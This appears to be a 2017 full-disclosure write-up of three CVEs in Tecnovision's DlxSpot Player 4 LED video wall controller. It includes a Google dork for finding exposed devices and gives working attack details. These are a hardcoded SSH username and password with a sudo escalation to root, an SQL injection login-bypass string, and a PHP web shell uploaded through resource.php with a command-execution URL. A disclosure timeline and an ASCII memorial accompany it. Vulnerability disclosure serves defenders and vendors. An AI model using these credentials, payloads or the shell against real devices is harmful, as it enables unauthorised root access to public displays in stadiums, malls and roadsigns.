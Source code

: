 Tecnovision LED Video Wall Vulnerabilities and Exploits. From SQLi to full root access.
================================
##### Introduction:
Tecnovision is a manufacturer of LED Video Walls used in arenas (For example, Twickenham Stadium), concert halls, shopping malls, as roadsigns and much much more. DlxSpot Player 4 is the software controller for some of these LED walls. These are the unpatched exploits and are 0days (2017-09-18) that I have discovered that led (ha!) from SQLi to full root access. (Please note that the hardcoded password was the last finding, they are just sorted in this list by the CVE numbers assigned to them)
Thank you for taking the time to read this. If you've got any questions, ping me on twitter @unknownpwn

I'd like to dedicate this work to my friend and brother-in-law who recently passed away, **Marcus Åström.**
May you rest in peace. 1994-04-05 ✞ 2017-09-11

##### TIMELINE:

+ 2017-05-14 - Discovery of vulnerabilities.
+ 2017-05-15 - Contacted Tecnovision through contact form on manufacturer homepage. 
+ 2017-06-01 - No response, tried contacting again through several contact forms on homepage.
+ 2017-08-10 - Contacted Common Vulnerabilities and Exposures (CVE) requesting CVE assignment.
+ 2017-08-17 - Three CVE's assigned for the vulnerabilities found.
+ 2017-08-22 - With help from fellow hacker and friend, byt3bl33d3r, sent an email in Italian to the company. 
+ 2017-09-18 - No response, full public disclosure.

### 1. Hardcoded Root SSH Password.
``` 
# Exploit Title: DlxSpot - Player4 LED video wall - Hardcoded Root SSH Password.
# Google Dork: "DlxSpot - Player4"
# Date: 2017-05-14
# Discoverer: Simon Brannstrom 
# Authors Website: https://unknownpwn.github.io/ 
# Vendor Homepage: http://www.tecnovision.com/
# Software Link: n/a
# Version: All known versions
# Tested on: Linux
# About: DlxSpot is the software controlling Tecnovision LED Video Walls all over the world, they are used in football arenas, concert halls, shopping malls, as roadsigns etc.
# CVE: CVE-2017-12928
# Linked CVE's: CVE-2017-12929, CVE-2017-12930
``` 

> Hardcoded password for all DlxSpot Players 4, accessible via SSH at port 22 as default. 
> Root login is disabled.

username: `dlxuser`
password: `tecn0visi0n`
 
After logging in, `sudo su` with the same password to escalate privileges to root.

-----------------------------------------

### 2. Admin Interface SQL Injection
```
# Exploit Title: DlxSpot - Player4 LED video wall - Admin Interface SQL Injection
# Google Dork: "DlxSpot - Player4"
# Date: 2017-05-14
# Discoverer: Simon Brannstrom
# Authors Website: https://unknownpwn.github.io/
# Vendor Homepage: http://www.tecnovision.com/
# Software Link: n/a
# Version: >1.5.10
# Tested on: Linux
# About: DlxSpot is the software controlling Tecnovision LED Video Walls all over the world, they are used in football arenas, concert halls, shopping malls, as roadsigns etc.
# CVE: CVE-2017-12930
# Linked CVE's: CVE-2017-12928, CVE-2017-12929
```

> DlxSpot Player 4 above version 1.5.10 suffers from an SQL injection vulnerability in the admin interface and is exploitable > with the following injection.

username:`admin` 
password:`x' or 'x'='x`

-----------------------------------------

### 3. Arbitrary File Upload to RCE
```
# Exploit Title: DlxSpot - Player4 LED video wall - Arbitrary File Upload to RCE
# Google Dork: "DlxSpot - Player4"
# Date: 2017-05-14
# Discoverer: Simon Brannstrom
# Authors Website: https://unknownpwn.github.io/ 
# Vendor Homepage: http://www.tecnovision.com/
# Software Link: n/a
# Version: >1.5.10
# Tested on: Linux
# About: DlxSpot is the software controlling Tecnovision LED Video Walls all over the world, they are used in football arenas, concert halls, shopping malls, as roadsigns etc.
# CVE: CVE-2017-12929
# Linked CVE's: CVE-2017-12928, CVE-2017-12930.
```

> DlxSpot Player 4 - Unrestricted Arbitrary File Upload in `resource.php` leading to Remote Command Execution.

1. Visit http://host/resource.php and upload PHP shell. For example: `<?php system($_GET["c"]); ?>`
2. RCE via http://host/resource/source/shell.php?c=id
3. Output: `www-data`

```
MMMMMMMMWXd;'  .xWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMXc..,cdKWMMMMMMMM
MMMMMMMXd:;.    ,0MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNl    .;cdKWMMMMMM
MMMMMWO;.;,   .  :XMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWd.     ':';xWMMMMM
MMMMWx.',;'  'c.  oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWk.  :;  .,;,.oNMMMM
MMMWd..l,''  .:'  .dWMMMMMMWWWXNMMMMMMNNWWWMMMMMMWk.  .:,  .,'l,.oNMMM
MMWk,;lc.., ..,;   .dNMMMMXdkO:xMMMMMWxc0kxNMMMMWk.   ,,.. ''.:o,.dWMM
MMXodxc' .,....;'   .lXMMWd';,.cXMMMMK:.;;'xWMMXo.   .;... ,. 'lxdl0MM
MXkoo;'.  ;,'' ';..   'dKk,....;0MMMMO'....;OXx,    .;' .'':. .,:xdONM
Nl';;...  :l:;,. ',..   .'..'..cONWWXO:.''..,.    .,'.',::lc. .'.:c;lX
0l;,'... .'l:.......'....      .;0WWk'.       ...'.....'.cl,. ...';;:k
Kx;.. .. ..', .,;,....'','.....,OWMMNd......',''....,:'..;,.. .. .':kK
x:... .. ...' .. ,l;.'. .. ...lKMMMMMWO:.'. .. ...:l'....,... .. ...ck
:,..  .. ...,... ..';,,''..,;;OWMMMMMMNo,:' .,',;;''. ...,... .. ...,c
,'.'. .. .. .',,.'..,.''..'..lNMMMMMMMM0;.''..;.., ...,''...  .. .'.',
c',c. .. .. .;c;':,.:'....;::xXMMMMMMMMOl;;,....;:.;,'cc, ..  '. .l'':
k;,,. .'. ...;'';::,,,.',;OXNWWMMMMMMMMWNX0l',..:,,lc;':, .. .'  .c,;k
k:'..  ;, ...;..,.'ll:ckkxXMMMMMMMMMMMMMMMWkdxo::l:',,.'; .. ,,  .'':O
0c..'  lo...'c.'c..kNOxXMWWMMMM R I P MMMMWNWWOx0K: ;:.;:....o; .'.'l0
Xl..;. o0;.':o,.dc.kMWNWMMMMMMMMMMMMMMMMMMMMMWNNMX:.d:.lc'. c0; ', .xX
Wl ,k:.ckd..oOc.o0cdWMMMMMMM M A R C U S MMMMMMMM0:dO'.xx:.,kO, ll..kM
Nc.okl,::ol'cxd,;KK0WMMMMMMMMMMMMMMMMMMMMMMMMMMMM0OXd.ckx;'dol,,kk,.xM
Nc;c.:ol..loc:dx:kMWMMMMMMM  A S T R O M  MMMMMMWWXccklccoc.:ll:ll'xMM
Noc' .oo' .lo':KO0WMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMKxKo,lkc  lk: .::kM
NOx' .',,  ..  .dWMMMM 1994-04-05 ✞ 2017-09-11 MMMMWWO' ';. .::'  cdOM
WN0, ,;.,. ... .OMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMX:  .. .;.., .dKXM
MMN: lx..;. .,. ,0MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMXc  ''  ,,.co..OWWM
MMWd'lk:.':. 'c' ,0WMMMMMMM FOREVER LOVED MMMMMMMMXc .:;  ;;.'kx.:XMMM
MMW0dlcc,.;l. ,xd,;OWMMMMM NEVER FORGOTTEN MMMMMW0:.cd: .::..cdocxWMMM
MMNo;,:;';'co' 'kXkkXMMMMMMMMMMMMMMMMMMMMMMMMMMMXxx0O; .ll',;::cokNMMM
MMX: .l: .,co:'..dNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWWWk'.'ldc;'.:c. :XMMM
MM0' 'Ol   cl..;:,lXMMMMMMMMMMMMMMMMMMMMMMMMMMMMMXo,,,.'oc.  ox. ;KMMM
MWd..xNl  .lc  ,0KdxXMMMMMMMMMMMMMMMMMMMMMMMMMMWKdo0k'  lc   dXc .OMMM
WO;:OWNc  .kd  .OMMNNWMMMMMMMMMMMMMMMMMMMMMMMMMWXNWMx. .xd.  oWXc.cXMM
WK0NMMK,  cNx. 'OMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMx. '00'  lNMNOd0WM
MMMMMMk. ,0Mk. ;KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMk. ,KWo. ;KMMMMMMM
MMMMMNc 'OWMk..dWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK; ;XMXc .kMMMMMMM
MMMMMk';0WMMk':XMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWx.;XMMXc.cNMMMMMM
MMMMXddXMMMM0xKMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdoNMMMNd:OMMMMMM
MMMMNXWMMMMMWWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNXWMMMMWOkNMMMMM
```
